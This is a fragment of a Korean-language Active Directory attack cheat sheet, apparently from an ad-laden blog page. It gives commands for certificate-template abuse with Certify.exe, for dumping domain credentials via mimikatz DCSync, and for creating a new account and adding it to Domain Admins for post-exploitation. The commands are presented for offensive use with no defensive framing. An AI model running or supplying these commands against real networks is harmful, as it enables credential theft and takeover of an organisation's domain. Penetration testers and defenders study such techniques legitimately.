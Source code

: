 <script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

- 자격증 템플릿 나열하기

```js
certutil - TCAInfo;
```

- 설정이 잘못된 템플릿을 남용하여 상위 권한 획득하기

```js
Certify.exe request /ca:<CA Name> /template:<Template Name>
```



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

# 고 권한 계정으로 Post-Exploitation

- DCSync와 같은 도구를 사용하여 도메인 자격 증명 덤프하기.

```js
mimikatz.exe "lsadump::dcsync /domain:<도메인> /user:<사용자>" "exit"
```

2. 새 계정 생성 또는 그룹 멤버쉽 수정을 통해 권한 상승하기.



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

```js
net user <username> <password> /add
net group "Domain Admins" <username> /add
```

# 도메인 자격 증명 덤프

